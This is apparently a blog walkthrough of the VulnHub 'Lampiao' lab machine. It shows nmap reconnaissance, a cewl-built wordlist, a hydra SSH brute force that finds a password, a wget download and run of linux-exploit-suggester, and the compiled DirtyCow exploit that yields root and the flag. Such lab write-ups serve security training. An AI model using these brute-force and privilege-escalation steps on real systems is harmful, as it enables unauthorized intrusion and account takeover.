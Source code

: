 ```yaml
---
title: "VulnHub - Lampiao Walkthrough"
date: 2020-09-26
tags: [vulnhub, walkthrough]
header:
  image: "/images/lampiao-thumbnail.jpg"
excerpt: "Walkthroughs"
---
```


Hello, everyone. Today I will share the Boot to Root process in Lampiao vulnerable machine. I will share only the successful way. There will not a lot of information

## Information Gathering

We are starting with a **Nmap scan** to find open ports and services.

```console
root@kali:~/Lampiao# nmap -p- -T4 -A lampiao.local
...
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)  
...
80/tcp open http?  
...  
1898/tcp open http Apache httpd 2.4.7 ((Ubuntu))  
|_http-generator: Drupal 7 (http://drupal.org)  
| http-robots.txt: 36 disallowed entries (15 shown)  
| /includes/ /misc/ /modules/ /profiles/ /scripts/  
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt  
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt  
|_/LICENSE.txt /MAINTAINERS.txt  
|_http-server-header: Apache/2.4.7 (Ubuntu)  
|_http-title: Lampi\xC3\xA3o  
...
```

## Exploitation

There will not any exploit for Apache Server 2.4.7 and OpenSSH. Also, it is possible to have an attack vector via SSH.
We connect the website from port `1898` which is a Drupal interface. There is one post which is shared by `tiago`. We try to do **Password Profiling** using the words in the post.

```console
root@kali:~/Lampiao# cewl http://lampiao.local:1898/?q=node/1 -w wordlist.txt  
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)  
root@kali:~/Lampiao# wc wordlist.txt  
844 844 6335 wordlist.txt  
```

Our `cewl` command creates a wordlist that contains 844 words. Now, we will do a **Brute force attack** to SSH connection.

```console
root@kali:~/Lampiao# hydra -l tiago -P wordlist.txt ssh://lampiao.local  
... 
[22][ssh] host: 192.168.12.145 login: tiago password: Virgulino  
...
```
Yes! That is it. We can find the password.


## Privilege Escalation
We connect to our vulnerable machine via SSH.

```console
root@kali:~/Lampiao# ssh tiago@lampiao.local
...  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
...
tiago@lampiao.local's password: Virgulino
```

I check some values.

```console
tiago@lampiao:~$ id  
uid=1000(tiago) gid=1000(tiago) groups=1000(tiago)  
tiago@lampiao:~$ pwd  
/home/tiago   
tiago@lampiao:~$ cat /etc/issue  
Ubuntu 14.04.5 LTS \n \l  
  
tiago@lampiao:~$ uname -a  
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 
```

For **local privilege escalation**, I download **linux-exploit-suggester** to the machine and execute it.

```console
tiago@lampiao:~$ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh  
... 
tiago@lampiao:~$ chmod u+x linux-exploit-suggester.sh
tiago@lampiao:~$ ./linux-exploit-suggester.sh
```

From the results, we can see that our machine is vulnerable to the **DirtyCow2** bug. We install this exploit and run it.

```console
tiago@lampiao:~$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil   
tiago@lampiao:~$ ./dcow  
Running ...  
Received su prompt (Password: )  
Root password is: dirtyCowFun  
Enjoy! :-)  
tiago@lampiao:~$ su  
Password:  
root@lampiao:/home/tiago# cd /root/  
root@lampiao:~# ls  
flag.txt  
root@lampiao:~# cat flag.txt  
9740616875908d91ddcdaa8aea3af366  
```
We found our flag! That's it. Thank you for reading!